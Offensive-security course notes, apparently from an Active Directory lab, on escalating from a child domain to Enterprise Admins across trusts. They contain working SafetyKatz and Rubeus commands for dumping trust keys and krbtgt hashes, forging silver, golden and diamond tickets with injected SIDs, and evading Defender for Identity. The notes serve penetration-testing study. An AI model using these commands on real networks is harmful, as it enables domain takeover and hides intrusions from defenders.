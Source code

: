 # 7.6 - Accross Trusts

### Privilege Escalation Across Trusts

#### Trusts Between Domains and Forests

In Active Directory environments, trust relationships determine how authentication requests are handled across domain or forest boundaries.

* **Inter-Domain Trusts (Same Forest)**:\
  By default, domains within the same forest have an implicit, bidirectional trust. This allows users in one domain to access resources in another, subject to appropriate permissions.
* **Inter-Forest Trusts**:\
  Trust relationships between separate forests must be explicitly created. These trusts can be one-way or two-way and are necessary for cross-forest authentication and resource access.

***

### Escalating Privileges to Enterprise Admins

#### Using `sIDHistory` for Privilege Escalation

The `sIDHistory` attribute stores previous SIDs for a user account, typically used during domain migrations to preserve access rights. This mechanism can be abused to escalate privileges across domains or forests by injecting the SID of a high-privilege group (e.g., Enterprise Admins).

There are two main methods for exploiting this:

1. **Using the `krbtgt` Hash from the Child Domain**
2. **Forging Trust Tickets (Inter-Realm TGTs)**

***

#### Method 1: Forging Trust Tickets

To forge inter-realm TGTs (trust tickets), the attacker needs access to the **inter-domain trust key** (the shared secret used between the child and parent domains).

**Retrieving the Trust Key**

The trust key can be obtained from the child domain controller using:

```bash
SafetyKatz.exe "lsadump::trust /patch"
```

Alternatively, it can be retrieved using DCSync or LSA secrets:

```bash
SafetyKatz.exe "lsadump::dcsync /user:dcorp\mcorp$"
SafetyKatz.exe "lsadump::lsa /patch"
```

**Forging the Ticket with Rubeus**

```bash
Rubeus.exe silver
/service:krbtgt/DOLLARCORP.MONEYCORP.LOCAL
/rc4:<trust_key_ntlm_hash>
/sid:<child_domain_sid>
/sids:<enterprise_admins_sid_from_parent>
/user:Administrator
/ldap
/nowrap
```

Then, use the forged TGT to request service tickets:

```bash
Rubeus.exe asktgs
/service:http/mcorp-dc.MONEYCORP.LOCAL
/dc:mcorp-dc.MONEYCORP.LOCAL
/ptt
/ticket:<FORGED_TGT>
```

***

#### Rubeus Silver Ticket Options (Summary)

* `/rc4`: NTLM hash of the trust key
* `/sid`: SID of the child domain
* `/sids`: SID of the Enterprise Admins group (from the parent domain)
* `/user`: Username to impersonate
* `/ldap`: Pull PAC data via LDAP
* `/nowrap`: Output formatting option

***

#### Method 2: Forging Golden Tickets with `krbtgt` Hash

This method is simpler and does not require trust ticket generation. Instead, it uses the `krbtgt` hash of the **child domain** to forge a normal Golden Ticket and adds the SID of the Enterprise Admins group from the **parent domain** to the `sIDHistory`.

**Example (using SafetyKatz)**

```bash
SafetyKatz.exe "kerberos::golden /user:Administrator
/domain:dollarcorp.moneycorp.local
/sid:<child_domain_sid>
/sids:<enterprise_admins_sid>
/krbtgt:<krbtgt_hash> /ptt" "exit"
```

This works because the parent domain trusts the child’s tickets due to the established trust relationship.

***

#### Bypassing Detection (MDI, Logging)

To evade suspicious logs and Microsoft Defender for Identity (MDI), impersonate a domain controller:

```bash
SafetyKatz.exe "kerberos::golden
/user:dcorp-dc$ /id:1000
/domain:dollarcorp.moneycorp.local
/sid:<child_domain_sid>
/sids:<enterprise_admins_sid>,S-1-5-9
/krbtgt:<krbtgt_hash> /ptt" "exit"
```

Use DCSync to extract the parent domain’s krbtgt hash:

```bash
SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```

Relevant SIDs:

* `S-1-5-21-...-516`: Domain Controllers group
* `S-1-5-9`: Enterprise Domain Controllers group

***

#### Using Rubeus for Golden Ticket Forgery

```bash
Rubeus.exe golden
/aes256:<krbtgt_aes256_key>
/user:dcorp-dc$ /id:1000
/domain:dollarcorp.moneycorp.local
/sid:<child_domain_sid>
/sids:<enterprise_admins_sid>,S-1-5-9
/dc:DCORP-DC.dollarcorp.moneycorp.local
/ptt
```

***

#### Using Rubeus Diamond Ticket to Bypass MDI

Diamond tickets are specially crafted Golden Tickets designed to evade detection mechanisms.

```bash
Rubeus.exe diamond
/krbkey:<krbtgt_aes256_key>
/tgtdeleg /enctype:aes
/ticketuser:dcorp-dc$ /ticketuserid:1000
/domain:dollarcorp.moneycorp.local
/dc:dcorp-dc.dollarcorp.moneycorp.local
/sids:<enterprise_admins_sid>,S-1-5-9
/createnetonly:C:\Windows\System32\cmd.exe
/show /ptt
```

Use DCSync to extract the parent krbtgt hash if not already done:

```bash
SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```
